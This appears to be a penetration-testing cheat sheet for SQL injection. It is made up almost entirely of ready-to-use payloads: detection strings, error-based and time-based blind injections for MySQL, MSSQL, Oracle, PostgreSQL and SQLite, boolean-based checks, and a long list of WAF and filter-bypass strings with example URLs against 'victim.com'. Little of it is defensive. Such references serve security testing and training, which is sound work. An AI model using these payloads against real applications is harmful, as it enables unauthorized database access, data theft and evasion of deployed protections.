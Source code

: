 SQL Injection (SQLi) is a critical web vulnerability where an attacker manipulates SQL queries by injecting malicious input into an application's database query. This can lead to unauthorized data access, data leakage, or even complete database compromise.

## Where to test:

* GET parameters
* POST body
* Headers (e.g., User-Agent, Referer, X-Forwarded-For)
* Cookies
* Hidden fields
* JSON/XML in API requests

  
**Quick Detection Payloads:**
```
' → does error show?
"
' or 1=1--
' and sleep(5)--
' and (select 1 from dual where 1=1)-- (Oracle)
```

# How to Identify SQLi Types:

### Error-Based SQL Injection

Test Payloads:
```
'         
"        
')         
" OR 1=1--  
' ORDER BY 100--  
' AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT(version(), FLOOR(RAND()*2)) x FROM information_schema.tables GROUP BY x) a)-- 
```

You see SQL error messages like:

* You have an error in your SQL syntax
* Warning: mysql_fetch_assoc()
* Unclosed quotation mark after the character string
* ORA-00933: SQL command not properly ended

IF Blocked:
Try Below Techniques:
```
%27  (URL encoded ')
%22  (URL encoded ")
/**/ (inline comment to bypass filters)
/*!SELECT*/  (MySQL comment bypass)
```
## Time-Based Blind SQL Injection

### MySQL
 ```
' AND SLEEP(5)--  
" AND SLEEP(5)--  
1 AND SLEEP(5)--  
' OR IF(1=1, SLEEP(5), 0)--  
' AND (SELECT * FROM users LIMIT 1) AND SLEEP(5)--  

 ```
### MSSQL (Microsoft SQL Server)
 ```
' WAITFOR DELAY '0:0:5'--  
" WAITFOR DELAY '0:0:5'--  
1; WAITFOR DELAY '0:0:5'--  
'; IF (1=1) WAITFOR DELAY '0:0:5'--  
'; SELECT CASE WHEN (1=1) THEN WAITFOR DELAY '0:0:5' ELSE NULL END--  

 ```
### Oracle
```
 ' AND 1=1 AND dbms_pipe.receive_message('a',5)--  
' OR 1=1 AND dbms_pipe.receive_message('a',5)--  
' OR dbms_lock.sleep(5) FROM dual--  
' AND (SELECT CASE WHEN 1=1 THEN dbms_lock.sleep(5) ELSE null END FROM dual)--  
```
### PostgreSQL
```
'; SELECT pg_sleep(5)--  
1 AND pg_sleep(5)--  
' OR pg_sleep(5)--  
' OR (SELECT CASE WHEN 1=1 THEN pg_sleep(5) ELSE pg_sleep(0) END)--  
' OR 1=(SELECT 1 FROM pg_sleep(5))--
```
### SQLite
```
' AND randomblob(1000000000)--  
' OR (SELECT load_extension('non_existing'))--  # causes crash or delay
' AND (SELECT COUNT(*) FROM sqlite_master, sqlite_master, sqlite_master)--  
```

# Boolean-Based Blind SQL Injection

Test Payloads:
```
' AND 1=1--          → should behave normally (TRUE)
' AND 1=2--          → should behave differently (FALSE)

" AND 1=1--         
" AND 1=2--         

' OR '1'='1'--       → TRUE
' OR '1'='2'--       → FALSE

1 AND 1=1           
1 AND 1=2           
```

 If blocked:
**Try encoding:**
``
%27 AND 1=1--  
%27 AND 1=2--  
``
**Use case-insensitive logic:**
``
' oR 1=1--  
``
**Try comment tricks:**
``
' AND/**/1=1--  
``



Bypassing WAF: Blind SQL Injection Using logical requests AND/OR • The following requests allow one to conduct a successful attack for many WAFs

``` 
/?id=1+OR+0x50=0x50 (HEX)
/?id=1+and+ascii(lower(mid((select+pwd+from+users+limit+1,1),1,1)))=74 (ASCII-Based-Boolean-Check)

```
# WAF Bypassing Strings

```
` /!%55NiOn/ /!%53eLEct/
%55nion(%53elect 1,2,3)– -
+union+distinct+select+
+union+distinctROW+select+
///!12345UNION SELECT///
concat(0x223e,@@version)
concat(0x273e27,version(),0x3c212d2d)
concat(0x223e3c62723e,version(),0x3c696d67207372633d22)
concat(0x223e,@@version,0x3c696d67207372633d22)
concat(0x223e,0x3c62723e3c62723e3c62723e,@@version,0x3c696d67207372633d22,0x3c62​723e)
concat(0x223e3c62723e,@@version,0x3a,”BlackRose”,0x3c696d67207372633d22)
concat(‘’,@@version,’’)
///!50000UNION SELECT///
//UNION///!50000SELECT///
/!50000UniON SeLeCt/
union /!50000%53elect/
+#uNiOn+#sEleCt
+#1q%0AuNiOn all#qa%0A#%0AsEleCt
/!%55NiOn/ /!%53eLEct/
/!u%6eion/ /!se%6cect/
+un//ion+se//lect
uni%0bon+se%0blect
%2f%2funion%2f*%2fselect
union%23foo%2Fbar%0D%0Aselect%23foo%0D%0A
REVERSE(noinu)+REVERSE(tceles)
/–/union/–/select/–/
union (/!/*/ SeleCT */ 1,2,3)
/!union/+/!select/
union+/!select/
//union//select//
//uNIon//sEleCt//
///*!union*////!select///
/*!uNIOn*/ /*!SelECt*/
+union+distinct+select+
+union+distinctROW+select+
+UnIOn%0d%0aSeleCt%0d%0a
UNION/*&test=1*/SELECT/*&pwn=2*/
un?+un//ion+se//lect+
+UNunionION+SEselectLECT+
+uni%0bon+se%0blect+
%252f%252a*/union%252f%252a /select%252f%252a*/
/%2A%2A/union/%2A%2A/select/%2A%2A/
%2f%2funion%2f%2fselect%2f%2f
union%23foo%2Fbar%0D%0Aselect%23foo%0D%0A
/!UnIoN*/SeLecT+`
```
## Bypass with Comments
SQL comments allow us to bypass a lot of filtering and WAFs.

`
Code :
 http://victim.com/news.php?id=1+un/**/ion+se/**/lect+1,2,3--
`
## Case Changing
Some WAFs filter only lowercase SQL keyword.
Regex Filter: /union\sselect/g
`
http://victim.com/news.php?id=1+UnIoN/**/SeLecT/**/1,2,3--
`

> **Don't Blindly Paste the Payloads, First Fingerprint the application and understand then use the payloads accordingly if any WAF OR Firewall there try Different Test cases discussed above to  Bypass the the WAF**

---


References:

https://owasp.org/www-community/attacks/SQL_Injection_Bypassing_WAF
https://portswigger.net/web-security/sql-injection/cheat-sheet
https://owasp.org/www-community/attacks/SQL_Injection
https://portswigger.net/support/sql-injection-bypassing-common-filters
https://code.google.com/archive/p/teenage-mutant-ninja-turtles/wikis/BasicObfuscation.wiki
https://johnermac.github.io/notes/ewptx/sqlievasion/
